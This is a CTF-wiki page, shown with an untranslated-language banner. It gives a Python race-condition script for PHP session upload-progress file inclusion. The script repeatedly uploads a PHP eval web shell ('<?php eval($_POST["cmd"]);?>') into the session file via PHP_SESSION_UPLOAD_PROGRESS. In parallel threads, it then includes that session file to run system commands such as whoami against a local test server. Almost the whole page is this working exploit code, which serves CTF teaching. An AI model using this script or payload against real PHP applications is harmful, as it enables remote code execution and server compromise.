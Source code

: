 # Php session中的条件竞争脚本
!!! warning
    The current page still doesn't have a translation for this language.

    You can read it through google translate.

    Besides, you can also help to translate it: [Contributing](https://ctf-wiki.org/en/contribute/before-contributing/).



```plain
我们创建的session默认通常是临时的，因此需要进行条件竞争来维持我们的连接。


#coding=utf-8

import io
import requests
import threading
sessid = 'TGAO'
data = {"cmd":"system('whoami');"}
def write(session):
    while True:
        f = io.BytesIO(b'a' * 1024 * 50)
        resp = session.post( 'http://127.0.0.1:5555/test56.php', data={'PHP_SESSION_UPLOAD_PROGRESS': '<?php eval($_POST["cmd"]);?>'}, files={'file': ('tgao.txt',f)}, cookies={'PHPSESSID': sessid} )
def read(session):
    while True:
        resp = session.post('http://127.0.0.1:5555/test56.php?file=session/sess_'+sessid,data=data)
        if 'tgao.txt' in resp.text:
            print(resp.text)
            event.clear()
        else:
            print("[+++++++++++++]retry")
if __name__=="__main__":
    event=threading.Event()
    with requests.session() as session:
        for i in xrange(1,30): 
            threading.Thread(target=write,args=(session,)).start()

        for i in xrange(1,30):
            threading.Thread(target=read,args=(session,)).start()
    event.set()

```





